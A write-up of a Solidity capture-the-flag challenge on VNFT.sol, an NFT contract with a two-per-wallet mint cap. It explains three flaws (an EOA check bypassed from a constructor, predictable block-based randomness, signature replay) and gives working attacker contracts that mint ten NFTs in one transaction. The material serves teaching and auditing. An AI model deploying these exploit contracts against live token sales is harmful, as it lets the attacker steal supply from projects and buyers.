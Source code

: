 # Solidity challenge VNFT.sol

## The objective

VNFT.sol is a ERC721 contract. The sale is capped at 2 tokens per wallet -- the goal is to exploit the sale by minting more than the allowed 2 NFTs per wallet, all in a single transaction.

## Overview

There are two functions to mint NFTs:

- function imFeelingLucky(address to, uint256 qty, uint256 number)
- function whitelistMint(address to, uint256 qty, bytes32 hash, bytes memory signature)

Both functions expect an address to mint and a quantity. `imFeelingLucky` additionally expects a number, while `whitelistMint` expects a hash and a signature.

Inspecting `imFeelingLucky` shows that it calculates a random number based on the blockhash, the block timestamp and the totalSupply:

```
uint256 randomNumber = uint256(
    keccak256(
        abi.encodePacked(
            blockhash(block.number - 1),
            block.timestamp,
            totalSupply
        )
    )
) % 100;

require(randomNumber == number, "Better luck next time!");
```

The modulo division sets the range of the random number from 0 to 99. The random number is compared with function input `number`, if its the same, it will allow minting tokens.

Function `whitelistMint` only allows whitelisted wallets to mint, it does that by requiring a signature signed by the owner of the contract:

```
require(
    recoverSigner(hash, signature) == owner(),
    "Address is not allowlisted"
);
```

## Vulnerability

Both functions have a vulnerability.

### imFeelingLucky

```
require((msg.sender).code.length == 0, "Only EOA allowed");
```

Above require statement ensures that only EOAs (externally owned accounts) are allowed to mint by checking that the code length of `msg.sender` is equal to zero. You can circumvent that check by including the necessary code in the constructor of your contract -- the code size of a smart contract at creation (so when the code in the constructor is executed) _is zero_:

```
contract Attacker {
    constructor(address EOA, address vnft) {
        uint256 currentId = IVNFT(vnft).totalSupply();

        uint256 randomNumber = uint256(
            keccak256(
                abi.encodePacked(
                    blockhash(block.number - 1),
                    block.timestamp,
                    currentId
                )
            )
        ) % 100;

        IVNFT(vnft).imFeelingLucky(address(this), 2, randomNumber);
        IVNFT(vnft).safeTransferFrom(address(this), EOA, currentId++);
        IVNFT(vnft).safeTransferFrom(address(this), EOA, currentId);

        selfdestruct(payable(EOA));
    }

    function onERC721Received(
        address,
        address,
        uint256,
        bytes calldata
    ) external virtual returns (bytes4) {
        return ERC721TokenReceiver.onERC721Received.selector;
    }
}
```

Above contract calculates the random number, mints 2 NFTs via `imFeelingLucky` and sends them to specified address. Function `onERC721Received` is needed because contract `VNFT.sol` uses `safeMint` for minting tokens.

### whitelistMint

As described, only whitelisted wallets can successfully mint by requiring a hash + signature signed by the owner. Usually you keep track of used signatures by saving them in an array and only allowing new signatures to be processed:

```
require(!usedSignatures[signature], "Signature already used!");
...
usedSignatures[signature] = true;
```

This check is missing, allowing a signature replay attack

```
constructor(
    address EOA,
    address vnft,
    bytes32 hash,
    bytes memory signature
) {
    uint256 currentId = IVNFT(vnft).totalSupply();

    IVNFT(vnft).whitelistMint(address(this), 2, hash, signature);
    IVNFT(vnft).safeTransferFrom(address(this), EOA, currentId++);
    IVNFT(vnft).safeTransferFrom(address(this), EOA, currentId);

    selfdestruct(payable(EOA));
}
```

Simply use a prior used signature to circumvent the whitelist check.

### Exploit in a single transaction

To exploit the sale by minting more than the 2 allowed tokens in a single transaction you have to write an attacker contract, which deploys several minting-contracts, executing your exploit logic.

```
function attack(address EOA) public {
    // deploy 5 smart contracts, each one is minting 2 nfts and sending those to address EOA
    for (uint256 i; i < 5; i++) new Attacker(EOA, address(vnft));

    // check if 10 NFTs were minted, if not, something went wrong
    require(vnft.balanceOf(EOA) == 10);
}
```

## Takeaways

- `require((msg.sender).code.length == 0` wont stop smart contracts from calling and executing a function, since code length during contract creation is zero
- Random numbers arent really random, since everything on the EVM is deterministic
- Keep track of used signatures to prevent signature replay attacks

## Further information

- [VNFT.t.sol](test/VNFT.t.sol) for a test script exploiting the contract
- [Implementation](https://goerli.etherscan.io/address/0x85811aa24f3f75c8cfd07aa3fab7e6d20e3b29f7#code) from adriro
- [Implementation](https://github.com/JonathanAmenechi/ethernaut-challenges/blob/main/src/Exploit9.sol) from jon_amen
